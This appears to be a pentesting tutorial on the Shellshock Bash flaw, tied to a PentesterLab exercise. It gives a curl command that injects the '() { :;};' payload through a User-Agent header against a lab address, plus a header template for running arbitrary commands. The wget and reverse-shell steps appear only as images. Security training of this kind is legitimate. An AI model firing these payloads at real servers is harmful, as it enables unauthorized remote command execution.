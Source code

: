 # Shellshock (CVE-2014-6271).
Shellshock is a security vulnerability in the Bash shell, discovered in 2014, that allows attackers to execute arbitrary commands on a vulnerable system. 
It exploits the way Bash handles environment variables and functions. By injecting malicious code into these variables, an attacker can gain control of the system, 
execute commands, or bypass security restrictions, making it a serious risk for servers and devices running vulnerable versions of Bash.

> The following examples can be reproduced in the next lab: [Pentesterlab](https://pentesterlab.com/exercises/cve-2014-6271)

## Detection.
Shellshock can be exploited regularly in `.sh` or `.cgi` files, we can add those extensions to search them in our fuzzing.


<p align="center">
  <img src="https://github.com/user-attachments/assets/c345d0f0-18c2-4540-b2a3-85e0c34000d0" width="700">
  <img src="https://github.com/user-attachments/assets/cebb8533-3432-4f04-a13b-440ceedd163c" width="700">
  <img src="https://github.com/user-attachments/assets/960f5556-2552-4183-9cdb-bbfda6d0d8d0" width="700">
</p>



<br />

> Shellshock payloads allways begin with: ``() { :;};``.

 ### curl.

<br />
Once we think we have found this vulnerability we can send the next `curl` to the server and check if it answers back. If it does we are against a shellshock vulnerability.

```bash 
curl -H ‘User-Agent: () { :;}; echo; echo ¿Es vulnerable?’ ‘http://10.10.10.56/cgi-bin/user.sh’
```

![3](https://github.com/user-attachments/assets/6c0b21d6-0bd6-42b6-b521-ac1d2da3f7a0)

> We can use Burpsuite too.

![4](https://github.com/user-attachments/assets/a81d1633-5f1d-4890-8823-e02daf1e26de)

## RCE.
Once we know are facing Shellshock we can try to excute commands in the target. To de so we will deploy our commands as follows:
```bash
User-Agent: () { :;}; /bin/bash -c "<COMMAND>"
```
### ping
![5](https://github.com/user-attachments/assets/919c41be-6fa8-4434-9da8-312406cee5f3)
### wget
![6](https://github.com/user-attachments/assets/d5026f68-17dd-4653-aa11-cb0fcfc2ba66)
## Reverse Shell.
![7](https://github.com/user-attachments/assets/1fbb699f-7a81-4930-b397-ec00252ab454)
![8](https://github.com/user-attachments/assets/e998e129-99ff-4039-a2bc-1119bb73b80c)

Any of the headers of the request can be used to deploy our payload as you can see in the following pictures:
![10](https://github.com/user-attachments/assets/95cec147-4243-4843-bc07-087fa42bfdf1)
![11](https://github.com/user-attachments/assets/ab9d9ce1-c41f-44b7-ac8e-0c44cf1fae25)









